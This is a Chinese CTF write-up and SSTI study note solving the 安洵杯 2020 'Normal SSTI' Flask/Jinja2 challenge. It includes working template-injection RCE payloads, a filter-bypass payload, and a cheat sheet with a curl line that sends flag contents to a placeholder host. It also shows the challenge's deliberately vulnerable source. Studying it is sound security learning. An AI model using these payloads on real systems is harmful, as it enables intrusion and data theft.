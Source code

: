 ```yaml
---
date: 2024-05-31
categories: 
    - 安洵杯
tags:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```


# 每日一题 —— [安洵杯 2020]Normal SSTI

> 题目地址： <https://www.nssctf.cn/problem/910>

<!-- more -->

## SSTI 前传

在此之前，我只在 MiniL2024 的比赛中，接触过简单无过滤的、golang 的 SSTI。但是现在是比较正式的 flask+jinja2 的 SSTI。因此这篇 wp, 比起作为题解，更像是作为 SSTI 学习笔记。

## 题目分析
根据题目提示，我们需要访问 `/test/?url=xxx`，其中 `xxx` 是一个参数，会回显在屏幕上。我们根据提示，知道了这道题是 flask 的 SSTI(偷看 tag 标签)。 我们测试一下 `{{1+2}}`, 发现被过滤了。我们尝试使用 `{%print(1)%}`, 发现这个 `{%print(1)%}` 并没有被过滤。

接下来我们要进行注入了。在此之前，我需要新学习一下 SSTI 的基本方法。首先我先创建了一个基本的 flask 程序。然后让 url 直接回显在屏幕上面。现在我使用这种以下的 url 访问， 可以直接实现 RCE:

```url
http://localhost:5000/?name={{"".__class__.__bases__[0].__subclasses__()[154].__init__.__globals__['popen']('cat$IFS/flag').read()}}
```

接下来分析一下，name 参数里的意义

- "": 这个是一个字符串，它的基类是 object, 我们通过 `"".__class__.__bases__[0]` 获取到了 object。
- `__subclasses__()[154]` : 这个就是 object 的子类，我们通过 `__subclasses__()` 获取到了所有的子类。然后我们通过网页的回显可以看到一大坨子类，我们找到了一个叫 `os._wrap_close` 的子类。这个模块可以用来执行命令。我们把所有的子类都复制到编辑器里面，把所有的除了逗号以外的都删掉，然后数一下逗号的个数，发现这个模块在第 154 个。我们利用 `__subclasses__()[154]` 获取到了这个模块。
- `__init__.__globals__['popen']` : 获取到了 `os._wrap_close` 的属性。
它的下面有一个 `popen` 方法，这个方法可以执行命令。
- `'cat$IFS/flag'` : 执行命令。在这里空格是不能出现的，因为会被 urlencode 为 `%20`，因此我们需要使用 `$IFS` 来代替空格。但是其实这不是最好的方法，还有一个绕过方法，就是将引号内所有内容进行 unicode encode （注意和 urlencode 区分开来）.


来自 [CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/114373785) 抄来的笔记。之后可能会专门出一节 blog 用来做 SSTI 学习。

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类（除object），以元组形式，类型的实例通常没有属性。 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的所有子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以调用当前脚本中的函数，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)

config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
self.__dict__		 保存当前类实例或对象实例的属性变量键值对字典，
{%print("DMIND")%}	 控制语句中也能输出

拼接字符：{% set ind=dict(ind=a,ex=a)|join%}		变量ind=index
获取字符：{{lipsum|string|list|attr('pop')(18)}} 相当于：lipsum|string|list|attr('pop')(18)  输出：_（下划线）
得到数字：{{lipsum|string|list|attr('index')('g')}} 相当于lipsum|string|list|attr('index')('g') 输出：10
运算出其他数字：{% set shiba=ten%2bten-two %}        %2b是URL编码后的加号

得到数字：{{dict(a=a)|lower|list|count}}得到16
运算出其他数字：{{dict(aa=a)|lower|list|count-dict(a=a)|lower|list|count}}得到1

得到任意字符：{{dict(dmind=a)|slice(1)|first|first}}得到dmind

获取__builtins__属性：{{lipsum.__globals__|attr('get')('__builtins__')}}		利用get()、pop()获取属性，相当于lipsum.__globals__.get('__builtins__')

lipsum.__globals__.__builtins__  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')
lipsum.__globals__.__builtins__.chr(95)  相当于  lipsum|attr('__globals__')|attr('get')('__builtins__')|attr('get')('chr')(95)

得到chr函数：{%set chr=lipsum.__globals__.__builtins__.chr%}
利用chr()得到字符：{{chr(47)~chr(32)}}  47是/  32是空格  ~是连接符

利用os执行命令：lipsum.__globals__.os.popen('dir').read()  相当于  lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('dir')|attr('read')()
类似的		  url_for['__globals__']['os']['popen']('dir').read()

简单的读取文件：url_for["__globa"+"ls__"].__builtins__.open("flag.txt").read()

在能执行eval情况下：eval(__import__('so'[::-1]).__getattribute__('syste'%2b'm')('curl http://xxx:4567?p=`cat /f*`'))
```

通篇看下来，对于这道题而言，因为使用的是 flask+jinja2, 所以还有一个更简单的 payload：
```
lipsum.__globals__['os'].popen('ls').read()
``` 
这个的原理是什么呢，我们看一下 flask 内的方法，有一个 lipsum 类，它里面有 os 模块。我们通过 `lipsum.__globals__['os']` 获取到了 os 模块，然后我们就可以使用 os 模块的 popen 方法来执行命令。

重新回到这道题，我们根据各种尝试，发现过滤了`空格`, `{{`, `[]`, `.`, 所以我们不能简单地使用这个方法。我们需要使用 `attr` 方法绕过。对于 `lipsum|attr('__globals__')`, 其实等效于 `lipsum.__globals__`，因此可以知道，attr 就是用来获取属性的。因此，我们的 payload 可以改写成 `lipsum|attr('__globals__')|attr('get')('os')|attr('popen')('ls').read()`。

最后一步，我们发现有一部分字符串被过滤了，我们就可以把引号里面的内容进行 unicode encode，最后完成命令执行.

最终 payload 如下：
```
?url={%print(lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u0067\u0065\u0074")("os")|attr("popen")("\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067")|attr("read")())%}
```
其中，命令执行的部分解码为： `cat /flag`。可以通过多次 RCE 得出最终 payload.

---
ps: 经过命令执行，我读取了他的源代码，经过一番整理如下：

```python
from flask import * 
app = Flask(__name__) 
url_black_list = ['%1c', '%1d', '%1f', '%1e', '%20', '%2b', '%2c', '%3c', '%3e'] 
black_list = ['.', '[', ']', '{{', '=', '_', '\'', '""', '\\x', 'request', 'config', 'session', 'url_for', 'g', 'get_flashed_messages', '*', 'for', 'if', 'format', 'list', 'lower', 'slice', 'striptags', 'trim', 'xmlattr', 'tojson', 'set', '=', 'chr'] 
@app.route('/', methods=['GET', 'POST']) 
def index():
    return 'try to check /test?url=xxx' 

@app.route('/test', methods=['GET']) 
def testing(): 
    url = request.url 
    for black in url_black_list:
        if black in url:
            return '<h1>do a real p1g</h1>' 
    url = request.args.get('url') 
    for black in black_list:
        if black in url: 
            return '<h1>do a real p1g</h1>' 
    return render_template_string('<h1>this is your url {}</h1>'.format(url)) 

if __name__ == '__main__': 
    app.run(host='0.0.0.0', port=8899, debug=True)
```

---
声明：本题解首次采用 vscode+comate 编写，即百度文心 AI 辅助生成。确实不错，写这篇 markdown 文件都能猜到我想要干什么。